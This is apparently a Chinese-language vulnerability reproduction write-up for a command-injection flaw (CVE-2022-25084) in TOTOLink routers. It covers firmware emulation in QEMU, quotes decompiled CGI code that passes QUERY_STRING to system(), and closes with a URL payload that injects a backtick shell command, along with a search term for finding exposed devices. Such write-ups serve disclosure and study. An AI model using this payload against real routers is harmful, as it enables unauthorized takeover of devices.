







# TOTOLink 多个设备 download.cgi 远程命令执行漏洞 CVE-2022-25084

## 漏洞描述

TOTOLink 多个设备 download.cgi文件存在远程命令执行漏洞，攻击者通过构造特殊的请求可以获取服务器权限

## 漏洞影响

```
TOTOLink 多个设备
```

## 网络测绘

```
"totolink"
```

## 漏洞复现

下载路由器固件



使用binwalk分解固件



查看分解出来的文件



使用qemu搭建路由器

```
#set network
sudo brctl addbr virbr2
sudo ifconfig virbr2 192.168.6.1/24 up
sudo tunctl -t tap2
sudo ifconfig tap2 192.168.6.11/24 up
sudo brctl addif virbr2 tap2

qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1" -netdev tap,id=tapnet,ifname=tap2,script=no -device rtl8139,netdev=tapnet -nographic
```

创建后在qemu里执行命令启动路由器

```
ifconfig eth0 192.168.6.11 up 
scp -r squashfs-root/ root@192.168.6.11:/root/    	
chroot ./squashfs-root/ /bin/sh
touch /var/run/lighttpd.pid
./bin/lighttpd -f ./lighttp/lighttpd.conf -m ./lighttp/lib
```

注意 `lighttpd.conf` 文件需要修改 `server.pid-file` 参数



启动后访问路由器页面



我们找到需要分析的文件目录 `squashfs-root/web_cste/cgi-bin`



分析 cgi文件 `downloadFile.cgi`


我们注意到其中的system执行命令

```
pcVar1 = getenv("QUERY_STRING");
memset(acStack1424,0,0x200);
memset(acStack912,0,0x200);
sprintf(acStack1424,"echo QUERY_STRING:%s >/tmp/download",pcVar1);
system(acStack1424);
```

其中 getenv 从请求Url中获取参数,传参给pcVar1，再通过下面的sprintf 赋值给 acStack1424 使用 system函数 进行命令执行


我们构造请求包控制 QUERY_STRING 参数来进行恶意命令执行

```
/cgi-bin/downloadFlile.cgi?payload=`ls>../cmd.txt`
```

